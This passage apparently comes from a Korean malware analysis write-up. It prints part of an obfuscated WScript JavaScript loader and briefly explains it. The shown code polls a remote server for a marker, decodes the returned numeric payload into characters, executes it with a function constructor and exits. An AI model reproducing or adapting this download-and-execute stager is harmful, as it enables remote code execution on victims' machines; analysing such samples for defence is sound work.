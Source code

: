 ```javascript

} catch (e) {

return false;

}

if (Wr86.status === 200) {

var Sy43 = Wr86.responseText;

if ((Sy43.indexOf("@" + yY44 + "@", 0)) == -1) {

WScript.sleep(22222);

} else {

Sy43 = Sy43.replace("@" + yY44 + "@", "");

var fS85 = Sy43.replace(/(\d{2})/g, function(Sd97) {

return String.fromCharCode(parseInt(Sd97, 10) + 30);

});

FQ96[3](fS85)();

WScript.Quit();

}

} else {

WScript.sleep(22222);

}

jD55++;

}

})

```

  

해당 사이트들에 접속해서 contents(Execute할 Code)를 Parse해 온다.

  

```javascript

FQ96[3](fS85)();

WScript.Quit();

```
